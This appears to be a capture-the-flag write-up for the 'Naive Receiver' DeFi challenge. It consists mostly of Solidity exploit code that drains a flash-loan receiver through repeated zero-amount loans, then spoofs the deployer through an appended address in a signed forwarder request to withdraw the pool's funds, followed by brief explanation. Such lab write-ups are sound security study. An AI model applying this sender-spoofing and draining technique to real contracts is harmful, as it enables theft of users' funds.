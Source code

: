 # Naive Receiver

```
uint size = 10;
        bytes[] memory data = new bytes[](size);
        for(uint i = 0; i < size; i++){
            data[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, ""));
        }
        pool.multicall(data);

        bytes[] memory data_call = new bytes[](1);
        data_call[0] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))), deployer);

        bytes memory callData;
        callData = abi.encodeCall(pool.multicall, data_call);
        BasicForwarder.Request memory request = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: 30_000_000,
            nonce: forwarder.nonces(player),
            data: callData,
            deadline: block.timestamp + block.timestamp
        });
        
        bytes32 requestHash = keccak256(
            abi.encodePacked(
                "\x19\x01",
                forwarder.domainSeparator(),
                forwarder.getDataHash(request)
            )
        );
        (uint8 v, bytes32 r, bytes32 s)= vm.sign(playerPk ,requestHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        forwarder.execute(request, signature);
```

To make a signature you need requestHash and it has a field like “\x19\x01” which is part of the standard.

abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),deployer)
Inside we do encodeCall and fill the parameters and then through encodePacked we add more data to the call and package them together.

Flashloans receivers should optionally have a check on who is making the call as it was in the unstoppable
